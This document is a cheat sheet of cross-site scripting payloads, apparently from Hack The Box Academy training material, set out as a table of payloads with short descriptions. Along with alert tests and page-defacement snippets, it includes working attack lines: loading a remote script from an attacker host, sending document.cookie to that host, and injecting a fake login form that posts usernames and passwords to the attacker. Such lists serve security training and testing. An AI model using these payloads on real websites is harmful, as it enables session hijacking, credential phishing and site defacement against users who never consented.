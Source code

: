 # XSS



| `<script>alert(window.origin)</script>`                                                                                                                                                                                                                                                                                                                                                              | Basic XSS Payload                                                       |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------- |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                        | Basic XSS Payload                                                       |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                           | Basic XSS Payload                                                       |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                          | HTML-based XSS Payload                                                  |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                        | Change Background Color                                                 |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                        | Change Background Image                                                 |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                             | Change Website Title                                                    |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                       | Overwrite website's main body                                           |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                      | Remove certain HTML element                                             |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                    | Load remote script                                                      |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                      | Send Cookie details to us                                               |
| <p></p><pre class="language-javascript"><code class="lang-javascript">document.write('&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://OUR_IP>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>');</code></pre><p><br></p> | Login Form Injection payload for login form injection for Reflected XSS |
